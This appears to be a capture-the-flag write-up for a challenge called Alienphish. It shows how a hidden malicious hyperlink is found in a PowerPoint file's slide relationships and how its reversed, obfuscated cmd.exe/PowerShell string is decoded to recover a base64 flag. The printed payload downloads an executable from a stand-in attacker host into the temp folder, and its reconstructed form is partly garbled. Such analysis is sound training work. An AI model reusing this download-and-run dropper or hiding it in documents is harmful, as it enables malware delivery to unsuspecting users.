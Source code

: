 ### Alienphish

#### Problem

- Given the Alien Weaknesses.pptx file, get the flag

#### Solution

- As we know that all .pptx files are actually a zip of many other files underneath.
- So, we rename it to .zip and extract the files.
- After going through all the files, we found a suspicious file - Alien Weaknesses/ppt/slides/\_rels/slide1_xml.rels, which contained a big string in target value of a hyperlink.
- So, we extracted the string and tried to get the flag.

`cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22`

- The '%20' in between looked like URL encoded, so we decoded it out and replaced '\&amp;' with actual '&', we got the following string.
  `cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"`

- Now, reading the string, we can figure out that some of its parts are reversed, ex : `eliftuo` : `outfile` , `exe.x/neila.htraeyortsed/:ptth` : `http:/destroyedearth.alien/x.exe`.
- So, we tried to figure out the exact string by reversing some parts and doing some other ops. We got the following strings.

```
cmd.exe /V:ON/C"set yM; iwr http:/destroyearth.alien/x.exe -outfile $o"='Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe' + powershell -c "$o = $env:temp && for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```

- The filename looked confusing, so we tried base64 decoding it and got the flag.
- Flag : `CHTB{pH1sHiNg_w0_m4cr0s???}`
